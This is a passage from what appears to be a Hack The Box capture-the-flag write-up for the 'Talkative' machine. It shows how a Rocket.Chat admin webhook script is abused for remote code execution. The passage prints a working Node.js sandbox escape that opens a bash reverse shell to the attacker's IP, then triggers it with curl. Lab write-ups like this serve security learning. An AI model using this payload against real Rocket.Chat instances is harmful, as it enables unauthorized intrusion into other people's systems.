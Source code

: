 Salute to the creator of the poc because he mentioned all the steps required to get an RCE. So since I already had the ability to create a webhook, I just coppied the payload used in the script. 

So here it is. 

First, we go to Administration and to integrations. `http://talkative.htb:3000/admin/integrations`

We fill up the form as required. 

Let's add to the script 

```
const require = console.log.constructor('return process.mainModule.require')();
require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.159/1337 0>&1"');
```

![RocketChat webhook](/assets/img/webhook.png)

Click Save. 

My screenshot is in French because RocketChat decided to chose French based on location (Morocco). We speak Arabic, Tamazight, French is second laguage. RocketChat doesn't know that. Anyway, we save the webhook, then we get an URL.

```
http://talkative.htb:3000/hooks/euqRqTJmGhbBzpbXJ/BFRHtiXhLPM2wwwtMo4ka7e4QvXWGhLGnaFNuwK8LWHzEzy3
```

Let's trigger the webhook. Pwncat is already waiting.

```bash
└─$ curl http://talkative.htb:3000/hooks/euqRqTJmGhbBzpbXJ/BFRHtiXhLPM2wwwtMo4ka7e4QvXWGhLGnaFNuwK8LWHzEzy3
{"success":false}                                                                                                                                                                                     
```

